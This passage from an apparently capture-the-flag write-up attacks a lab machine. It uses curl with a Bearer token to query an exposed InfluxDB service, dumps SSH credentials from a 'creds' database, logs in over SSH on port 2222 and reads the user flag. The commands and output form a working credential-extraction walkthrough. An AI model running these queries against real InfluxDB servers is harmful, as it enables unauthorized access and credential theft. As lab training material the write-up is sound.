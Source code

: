 Showing the measurements on creds:

```
└─$ curl -G http://10.10.169.219:8086/query -H "Accept: application/json" -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNjI4MTY1NDU2fQ.bpd61sWs9b0Ey3uLpYfB0LtwiUY****************"  --data-urlencode 'q=SHOW MEASUREMENTS on creds' 
{"results":[{"statement_id":0,"series":[{"name":"measurements","columns":["name"],"values":[["ssh"]]}]}]}
```

We learn that there is a measurement on the creds database called ssh that we can use to obtain user and password for the ssh server listening on port 2222:

```
└─$ curl -G http://10.10.169.219:8086/query -H "Accept: application/json" -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNjI4MTY1NDU2fQ.bpd61sWs9b0Ey3uLpYfB0LtwiU****************"  --data-urlencode 'db=creds' --data-urlencode 'q=SELECT * FROM ssh' | python3 -m json.tool > values_ssh  

                    "values": [
                        [
                            "2021-05-16T12:00:00Z",
                            77********,
                            "uzJk********"
                        ]

username: uzJk********
password: 77********
```

### Getting the User flag

Using the credentials obtained from querying influxDB to log into the ssh service running on port 2222, we can get the user flag by reading the contents of user.txt:

```
└─$ ssh -l uzJk6Ry98d8C 10.10.169.219 -p 2222                                                                                             255 ⨯
The authenticity of host '[10.10.169.219]:2222 ([10.10.169.219]:2222)' can't be established.
ECDSA key fingerprint is SHA256:m7yl6Q13T1eePlSp8SzRHz+ulMEmSYzqakcD/LmhPXo.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.169.219]:2222' (ECDSA) to the list of known hosts.
uzJk********@10.10.169.219's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.

uzJk********@d8daaf3c6ef4:~$ ls
data  meta.db  user.txt  wal
uzJk********@d8daaf3c6ef4:~$ cat user.txt 
THM{V4w4************ddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddd}
uzJk********@d8daaf3c6ef4:~$ 

```
